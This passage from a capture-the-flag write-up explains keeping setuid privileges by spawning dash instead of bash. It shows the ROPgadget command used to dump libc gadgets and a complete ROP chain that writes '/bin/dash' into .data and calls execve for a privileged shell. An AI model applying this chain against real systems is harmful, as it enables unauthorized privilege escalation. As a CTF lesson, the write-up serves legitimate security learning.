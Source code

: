 The organizer insisted that the challenge wasn't broken.

> yes
> correct, you have find some way to maintain the uid

After a bit of digging I found this on [StackOverflow](https://superuser.com/questions/532121/what-does-p-do-on-shell-script):

> If Bash is started with the effective user (group) id not equal to the real user (group) id, and the `-p` option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the `-p` option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

Looking at `/bin` on the ssh server, I saw that `dash` was installed, which does not have this issue. I had two options at that point. I could call `bash` with the `-p` flag, or I could call `dash`. Either one would require a ropchain more complex than just a simple one-gadget, but I decided on calling `dash`.

## Forging the ropchain

I used ROPgadget to dump gadgets from the libc.

```
ROPgadget --binary libc.so.6 --all --ropchain > gadgets.txt
```

The `--ropchain` flag automatically generates a ropchain, but it isn't useful by itself for this case, because it calls `/bin/sh` and not `/bin/dash`. Still, the ropchain can be modified to call `dash` instead. Additionally, I made sure that all the gadgets had higher addresses than the leaked libc address, because I didn't want to spend time debugging bad Chip-8 subtraction code.

### The ropchain

#### Invoke `execve("/bin/dash", "", "")`

```
0x000f5295: pop rdx ; ret
0x00399080: @ .data
0x00035578: pop rax ; ret
'/bin/das'
0x0002c42c: mov qword ptr [rdx], rax ; ret
0x00058552: pop rdx ; ret
0x00399088: @ .data + 8
0x00035578: pop rax ; ret
'h\x00\x00\x00\x00\x00\x00\x00'
0x0002c42c: mov qword ptr [rdx], rax ; ret
0x00101461: pop rdi ; ret
0x00399080: @ .data
0x0011b879: pop rsi ; ret
0x00399089: @ .data + 9
0x000f5295: pop rdx ; ret
0x00399089: @ .data + 9
0x00035578: pop rax ; ret
p64(59)
0x000a87e5: syscall ; ret
```
